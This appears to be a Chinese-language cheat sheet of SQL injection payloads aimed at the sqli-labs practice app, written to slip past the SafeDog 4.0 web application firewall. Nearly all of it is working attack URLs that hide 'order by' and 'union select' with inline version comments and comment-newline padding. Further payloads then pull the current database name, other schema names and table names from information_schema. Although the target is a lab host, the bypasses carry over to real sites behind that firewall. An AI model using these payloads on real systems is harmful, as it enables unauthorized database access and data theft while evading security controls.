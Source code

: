 ## 判断字段数

绕order by

内联

```
http://172.16.1.157/sql/Less-1/?id=1'/*!14440order by*/ 3 -- +
```

注释换行

```
http://172.16.1.157/sql/Less-1/?id=1'order%23%0aby 3 -- +
```

## 联合查询

关键在于打乱`union select`

内联

```
http://172.16.1.157/sql/Less-1/?id=-1' /*!14440union*//*!14440select */1,2,3 -- +
```

注释后跟垃圾字符换行

```
http://172.16.1.157/sql/Less-1/?id=-1'union%23hhh%0aselect 1,2,3--+
```

union distinct | distinctrow | all

```
http://172.16.1.157/sql/Less-1/?id=-1' union distinct %23%0aselect 1,2,3 -- +
http://172.16.1.157/sql/Less-1/?id=-1' union distinctrow %23%0aselect 1,2,3 -- +
http://172.16.1.157/sql/Less-1/?id=-1' union all%23%0aselect 1,2,3 -- +
```

接下来是查数据，我在这使用`注释垃圾字符换行`也就是`%23a%0a`的方法来绕，你可以用上面说的`/*!14440*/`内联

查当前数据库名

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23chabug%0a select 1,database%23%0a(%0a),3 -- +
```

查其他库名 **安全狗4.0默认没开information_schema防护的时候可以过**，开了information_schema防护之后绕不过去，哭唧唧😭

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23asdasdasd%0a select 1,(select schema_name from %23%0ainformation_schema.schemata  limit 1,1),3 -- +
```

查表名

```
http://172.16.1.157/sql/Less-1/?id=-1' union %23asdasdasd%0a select 1,(select table_name from %23%0ainformation_schema.tables where table_schema=database(%23%0a) limit 1,1),3 -- +
```
